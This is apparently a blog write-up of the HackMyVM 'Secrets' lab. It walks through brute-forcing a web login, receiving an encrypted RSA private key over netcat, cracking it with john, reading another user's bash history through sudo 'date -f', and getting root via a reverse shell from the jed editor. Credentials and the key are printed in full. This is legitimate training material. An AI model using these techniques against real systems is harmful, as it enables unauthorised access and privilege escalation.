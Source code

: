 ```yaml
---
layout: post
title:  "HackMyVM: Secrets"
date:   2022-01-02 16:00:00 +1000
category: hacking
---
```

I had a few days off, because I was away with no access to a PC. Now I'm back.

This is [Secrets](https://hackmyvm.eu/machines/machine.php?vm=Secrets). It's Medium rated. 

## Ports
SSH and HTTP only.

### HTTP
The frontpage says:

>I have to tell you a secret...  

And there is a comment:

>written by brad

So we have a username. At **/secrets/** we get this:

>I keep wanting to tell you a secret...

Thanks brad. Fuzzing brings us to **/secrets/login_form.php** and we can bruteforce it to reveal our creds, which are **brad:bradley**

Logging in gives us access to a page that says: 

>Enter ip to send secret:

Any input that contains *any* character that isn't a number (0-9) results in the following:

>[!] Secrets only accept numbers.

Converting my IP (10.10.10.2) gives *168430082* in decimal, so I use that. Listening with tcpdump:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# tcpdump -i any     
tcpdump: data link type LINUX_SLL2
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
00:35:02.610890 eth0  Out IP 10.10.10.2.47460 > 10.10.10.45.http: Flags [S], seq 1725047437, win 64240, options [mss 1460,sackOK,TS val 292236947 ecr 0,nop,wscale 10], length 0
00:35:02.611114 eth0  In  IP 10.10.10.45.http > 10.10.10.2.47460: Flags [S.], seq 3453361331, ack 1725047438, win 65160, options [mss 1460,sackOK,TS val 4039950164 ecr 292236947,nop,wscale 7], length 0
00:35:02.611142 eth0  Out IP 10.10.10.2.47460 > 10.10.10.45.http: Flags [.], ack 1, win 63, options [nop,nop,TS val 292236948 ecr 4039950164], length 0
00:35:02.611225 eth0  Out IP 10.10.10.2.47460 > 10.10.10.45.http: Flags [P.], seq 1:573, ack 1, win 63, options [nop,nop,TS val 292236948 ecr 4039950164], length 572: HTTP: POST /secrets/AYPIN9UG8WHWN0UE09Y2.php HTTP/1.1
00:35:02.611376 eth0  In  IP 10.10.10.45.http > 10.10.10.2.47460: Flags [.], ack 573, win 505, options [nop,nop,TS val 4039950164 ecr 292236948], length 0
00:35:02.614025 eth0  In  IP 10.10.10.45.52990 > 10.10.10.2.6666: Flags [S], seq 655884510, win 64240, options [mss 1460,sackOK,TS val 4039950167 ecr 0,nop,wscale 7], length 0
00:35:02.614066 eth0  Out IP 10.10.10.2.6666 > 10.10.10.45.52990: Flags [R.], seq 0, ack 655884511, win 0, length 0
{% endhighlight %}

Something is going on with port 6666

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# nc -nvlp 6666                                                                                                                                                                  
listening on [any] 6666 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.45] 52998
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,478250418EF67EB4

MvfHsFbuTgPyi0PeU9dWPL8wVaIKHsuvYEIdwNJF42eDz0/L5kdoBnA8+yuWAI28
iI2jtehZHb/7PuaIsCtrzrJ0B1xXZYoeSc4Dfu2j1gi/ToaO3A6RHseHWHsjM9Qw
4AzHS13ze+EQTLHMnTu6eCADEXhwShgrHAmJpw4irdTca+wuY83n38obX0EhrXAs
E8zZfY8yMg4nuq9cP5pZ17IjvQbfk4cvfD4jNN4rXXn8WVlY5tdBH6Bg3lBoZDwD
VfNwZCmUrNIfMamNXjhMzkBNBwPXaNARokQded6c9Ie2PmdPMKPOkL/9QlM77OaE
d0xid9s1u4z2H/Q8GrODUc7eJar95bFLUySNoTiVFPqbVTvQ9tZNSWNTkQ5kgCXj
YRroAtvp0f0UdcPAOFRjsEFqQ4MqwZy26j1rhhAJQKg+q6SkyPv73kRotXajaAK3
irNHqNgzIKmkY9x9rfPTxiGw1oJyJxyNwQ3pZilih5AvI8EQBRVAN7Nb6utjDnkV
u1cjWr6ZN3lC67rhxwXZ9cub1KoQ1pwrzg0Iy1/x2d6zFHeuAkjlSeO8jkUpT1Eb
tdRdrJh712pW9vDg36VaQnrfeNVFPYmku0OXFXgsfiJ+XAJYQX+K2e4N3vRKuXSp
zH5nyL5d1r1Z+wn2s9Ial/zbhCUdOJiwZ87N7yIzCvykMnjEIPwytouWY/Ed4tq8
AqAegiMF5Y7M7+FC+ZH8EUvRCEzUPjS+T0KxgGY1KCTSUfL7QGZwQRKZ1hC879n6
ouj03SFu2VqiuMOXcs8lSjas5vyQgz4XhF58OUzi/BYrqCQBMV3W8RWviJzQvYwV
zBl5lkKsUMJ1Y4xLWBP64LnnEPRViPq7TGxYa6aTZ6rmTIe6dJORhIRVdPilGMYs
4462OpFpIYqWgKNGOJ1GMRf/juiE3J4pBwpslbefxt9SZnwnE9xHgRBInmqJgneC
38EJWyUwJqqlUSSoki3PB19KFpjy9U3YUPPF0Ff8jNg0x3FFLSFqLI4wyTPXH9+J
AalS64ttaP8PoiPxSK9oEXcj8RXVLq99Xdkq9gx25qw/Hca7wOIEUsAmjdtKYMVL
ccsaCrRsC1IMF3Wu1l4ihIwzBBA+l5ZhFIgD9hgUdtinchC3+TRI6r6Cnlbj2rB+
NrSpX7D3X1I5s15FmZuo1kkRH3xxjR1LLRuEjQkg3CTpZnUK5nDLgYo9dSnd0QzM
yOACjV6NiI1PJr7hM08OBuxd5I+FB8JyVJozQMMNoooNdvBNJvFoAXvaqqfY64fu
lYQXXEiPhOVajVGieA2tHmlLf7v6KDCqePZ+/KqxGqn+jIxsjjItCxOlW2OWxWCB
iLsB4JJ0NmKCFJh27wCvyMM1+Z8Kmt2BptCEREBHGxIkOraFBk6MN1bqBBi02UE/
C6piJetSpBUwjOOUs4hiwGRtYf5w4Hut8rsMs79/D3HsG8UPpZsrUKOcv8ZIosOg
+jOuyVfxN44ySVuB2gVVU904GHIdMRyBeR6udv/qgxabGyShoeRhUjA3PPZEDw7B
LPMDfxOmzS9h/8CEK5RHQsxt6krtooRpf5HLCczehCzWzQXKPfnXwg==
-----END RSA PRIVATE KEY-----
{% endhighlight %}

That'll do.

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# python /usr/share/john/ssh2john.py id_enc > id_rsa.john
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# john id_rsa.john -w=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
security         (id_enc)     
1g 0:00:00:00 DONE (2022-01-02 00:39) 100.0g/s 307200p/s 307200c/s 307200C/s 753159..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                          
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# chmod 600 id_enc        
                                 
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# ssh -i id_enc brad@10.10.10.45
Enter passphrase for key 'id_enc': 
Linux secrets 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
brad@secrets:~$ sudo -l
Matching Defaults entries for brad on secrets:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brad may run the following commands on secrets:
    (fabian) NOPASSWD: /usr/bin/date
{% endhighlight %}

What's fabian got for me?

{% highlight shell %}
brad@secrets:~$ LFILE=/home/fabian/.ssh/id_rsa
brad@secrets:~$ sudo -u fabian /usr/bin/date -f $LFILE
/usr/bin/date: /home/fabian/.ssh/id_rsa: No existe el fichero o el directorio
{% endhighlight %}

Nope. How about....

{% highlight shell %}
brad@secrets:/$ LFILE=/home/fabian/.bash_history
brad@secrets:/$ sudo -u fabian /usr/bin/date -f $LFILE
sudo -u fabian /usr/bin/date -f $LFILE
/usr/bin/date: fecha inválida «cd ~»
/usr/bin/date: fecha inválida «ls -la»
/usr/bin/date: fecha inválida «passwd fabian»
/usr/bin/date: fecha inválida «s3cr3t$$$L0v3$$$»
/usr/bin/date: fecha inválida «exit -y»
brad@secrets:/$ su fabian
Contraseña: 
fabian@secrets:/$
{% endhighlight %}

Thanks, fabian.

{% highlight shell %}
fabian@secrets:~$ sudo -l
Matching Defaults entries for fabian on secrets:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fabian may run the following commands on secrets:
    (root) NOPASSWD: /usr/bin/jed
fabian@secrets:~$
{% endhighlight %}

It's a [text editor](https://en.wikipedia.org/wiki/JED_(text_editor)) and we can run shell commands from within, like sending ourselves a reverse shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/secrets]
└─# nc -nvlp 1234 
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.45] 47152
tput: unknown terminal "unknown"
root@secrets:~# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) grupos=0(root)                                                     
secrets
dom ene  2 06:50:44 CET 2022
root@secrets:~# exit
{% endhighlight %}

Or you can just open a terminal inside the editor. Anyway I'd not seen it before and this was a nice little challenge, this write-up made it sound super easy but it took a bit to figure out the port 6666 thing, I was busy trying command injections and looking at PCAPs first. But I got there and that's what counts :)
